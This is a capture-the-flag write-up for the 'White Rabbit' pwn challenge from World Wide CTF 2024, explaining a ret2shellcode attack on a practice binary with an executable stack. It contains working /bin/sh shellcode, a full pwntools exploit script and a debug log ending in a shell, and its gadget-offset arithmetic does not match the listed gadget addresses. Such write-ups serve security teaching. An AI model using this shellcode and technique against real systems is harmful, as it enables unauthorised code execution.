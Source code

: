 ```yaml
---
title: "[WRITE UP] - World Wide CTF 2024 - White Rabbit"
published: 2024-12-01
description: "Write up for White Rabbit challenge"
image: "./image.png"
tags:
  - "PWN"
  - "2024"
category: "CTF Writeups"
draft: false
---
```


### Description

> Just a nice easy warmup for you...
>

### Analysis

### General information

```bash
  (\\_/)
  ( •_•)
  / > 0x556bdd42d180

follow the white rabbit...
```

```bash
[*] '/home/alter/CTFs/WWF_2024/pwn/white_rabbit'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
```

So we can see here, the binary have no canary and the PIE is enabled. One more thing is `Stack` is executable and it leak the address each time we run the binary. So we can think about `ret2shellcode`

### Brain time

So my experience for this is just take that address and maybe we will need it, so this is my code for take that leak address:

```python
p.recvuntil(b'/ > ')
leak = int(p.recvline()[:-1], 16)
info("[+] Leak: " + hex(leak))
```

Just check what that address it leak is by using dynamic debugging. I'm breakpoint at `follow()` function. We can see our leak address in my case is `0x555555555180` (I have disabled `ASLR` for easier). When I look around there is the leak address of `main` function:

```python
gef➤  disas*main
Dump of assembler code for function main:
   0x0000555555555180 <+0>:     push   rbp
```

Or we can look at pseudocode in IDA:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("\\n  (\\\\_/)");
  puts(asc_200D);
  printf("  / > %p\\n\\n", main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}
```

As said before, the idea of this is `ret2shellcode` so what we need to find is:

- Offset from input to RIP
- Gadget
- Craft shellcode

For the offset, it is a little bit easy so I will skip this

The next step involves identifying the gadget. To identify the gadget in a PIE (Position Independent Executable) binary, tools like `ROPgadget` and `ropper` are used. However, because PIE is enabled, these tools cannot display the absolute addresses of gadgets. Instead, they provide offsets relative to the binary's base address, which is determined only at runtime.

To work around this, I used `ROPchain` to find the gadget's offset. Then, I calculated its relative position by comparing the gadget’s offset to the address of the main function in the binary. To do this, I first disassembled the main function in GDB before running the binary, capturing its pre-loading address. Subtracting the gadget's offset from the main’s address gave me the relative offset, which remains consistent between local and remote execution of the binary due to the fixed layout enforced by PIE.

```
➜  pwn ROPgadget --binary white_rabbit | grep "call rax"
0x000000000000100d : add byte ptr [rax], al ; test rax, rax ; je 0x1016 ; call rax
0x0000000000001014 : call rax
0x0000000000001012 : je 0x1016 ; call rax
0x0000000000001010 : test eax, eax ; je 0x1016 ; call rax
0x000000000000100f : test rax, rax ; je 0x1016 ; call rax

```

```nasm
gef➤  disas*main
Dump of assembler code for function main:
   0x0000000000001180 <+0>:     push   rbp

```

So our gadget's offset is `0x1180` - `0x10bf`= `0xc1`. But why is `call rax`? Because in the `x86-64` calling convention, the return value of a function is typically stored in the `RAX` register. This convention applies to most functions, including standard library functions like `gets`.

The last one is shellcode, just basic `/bin/sh` shellcode:

```nasm
    push 0x3b
    pop rax

    mov rdi, 0x68732f6e69622f
    push rdi
    push rsp
    pop rdi

    cdq
    push rdx
    pop rsi

    syscall
```

### Exploit

```python
#!/usr/bin/python3
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./white_rabbit', checksec=False)
def GDB(): gdb.attach(p, gdbscript='''

c
''') if not args.REMOTE else None

p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

ru(b'/ > ')
leak = int(rl()[:-1], 16)
info("Leak: " + hex(leak))

gadget = leak - 0xc1
shellcode = asm("""
    push 0x3b
    pop rax

    mov rdi, 0x68732f6e69622f
    push rdi
    push rsp
    pop rdi

    cdq
    push rdx
    pop rsi

    syscall
""", arch="amd64")

pl = flat(
    shellcode.ljust(120, b'A'),
    p64(gadget)
    )

sl(pl)
interactive()

```

```bash
➜  pwn ./exploit.py
[+] Starting local process '/home/alter/CTFs/WWF_2024/pwn/white_rabbit': pid 12216
[!] ASLR is disabled!
[DEBUG] Received 0x47 bytes:
    00000000  0a 20 20 28  5c 5f 2f 29  0a 20 20 28  20 e2 80 a2  │·  (│\\_/)│·  (│ ···│
    00000010  5f e2 80 a2  29 0a 20 20  2f 20 3e 20  30 78 35 35  │_···│)·  │/ > │0x55│
    00000020  35 35 35 35  35 35 35 31  38 30 0a 0a  66 6f 6c 6c  │5555│5551│80··│foll│
    00000030  6f 77 20 74  68 65 20 77  68 69 74 65  20 72 61 62  │ow t│he w│hite│ rab│
    00000040  62 69 74 2e  2e 2e 0a                               │bit.│..·│
    00000047
[*] Leak: 0x555555555180
[DEBUG] cpp -C -nostdinc -undef -P -I/home/alter/.local/lib/python3.12/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        push 0x3b
        pop rax
        mov rdi, 0x68732f6e69622f
        push rdi
        push rsp
        pop rdi
        cdq
        push rdx
        pop rsi
        syscall
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-x8nkdsmx/step2 /tmp/pwn-asm-x8nkdsmx/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-x8nkdsmx/step3 /tmp/pwn-asm-x8nkdsmx/step4
[DEBUG] Sent 0x81 bytes:
    00000000  6a 3b 58 48  bf 2f 62 69  6e 2f 73 68  00 57 54 5f  │j;XH│·/bi│n/sh│·WT_│
    00000010  99 52 5e 0f  05 41 41 41  41 41 41 41  41 41 41 41  │·R^·│·AAA│AAAA│AAAA│
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  41 41 41 41  41 41 41 41  bf 50 55 55  55 55 00 00  │AAAA│AAAA│·PUU│UU··│
    00000080  0a                                                  │·│
    00000081
[*] Switching to interactive mode

follow the white rabbit...
$ whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\\n'
[DEBUG] Received 0x6 bytes:
    b'alter\\n'
alter
```
